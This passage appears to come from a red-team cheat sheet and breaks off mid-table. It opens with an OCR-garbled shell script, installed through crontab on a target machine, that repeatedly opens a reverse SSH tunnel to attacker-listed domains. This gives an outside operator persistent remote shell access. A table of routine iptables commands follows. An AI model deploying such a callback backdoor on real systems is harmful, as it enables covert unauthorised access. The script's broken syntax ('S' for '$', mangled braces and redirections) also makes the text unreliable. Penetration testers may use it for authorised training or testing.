 ```text
Set up script in crontab to callback every X minutes.
Highly recommend YOU
set up a generic user on red team computer (with no shell privs).
Script
will use the private key (located on callback source computer) to connect
to a public key (on red team computer). Red teamer connects to target via a
local SSH session (in the example below, use #ssh -p4040 localhost)
#!/bin/sh
# Callback: script located on callback source computer (target)
killall ssh /dev/null 2 &1
sleep 5
REMLIS-4040
REMUSR-user
HOSTS=''domainl.com domain2.com domain3.com''
for LIVEHOST in SHOSTS;
do
    COUNT=S(ping -c2 $LIVEHOST | grep 'received' | awk -F','{ print $2 } '
    | awk ' ( print $1 | ')
    if [ [ $COUNT -gt 0 ] ] ; then
    ssh -R $(REMLIS}:localhost:22 -i
    "/home/$(REMUSR}/.ssh/id rsa" -N $(LIVEHOST} -1 $(REMUSR}
fi
```

## Iptables

use ip6tables for ipv6 rules

<table>
  <thead>
    <tr>
      <th style="text-align:left"><b>Command</b>
      </th>
      <th style="text-align:left"><b>Description</b>
      </th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">iptables-save -c file</td>
      <td style="text-align:left">Dump iptables (with counters) rules to stdout</td>
    </tr>
    <tr>
      <td style="text-align:left">iptables-restore file</td>
      <td style="text-align:left">Restore iptables rules</td>
    </tr>
    <tr>
      <td style="text-align:left">iptables -L -v --line-numbers</td>
      <td style="text-align:left">List all iptables rules with affected and line numbers</td>
    </tr>
    <tr>
      <td style="text-align:left">iptables -F</td>
      <td style="text-align:left">Flush all iptables rules</td>
    </tr>
    <tr>
      <td style="text-align:left">
        <p>iptables -P INPUT/FORWARD/OUTPUT</p>
        <p>ACCEPT/REJECT/DROP</p>
      </td>
      <td style="text-align:left">Change default policy for rules that don&apos;t match rules</td>
    </tr>
    <tr>
      <td style="text-align:left">iptables -A INPUT -i interface -m state --state RELATED,ESTABLcSHED -j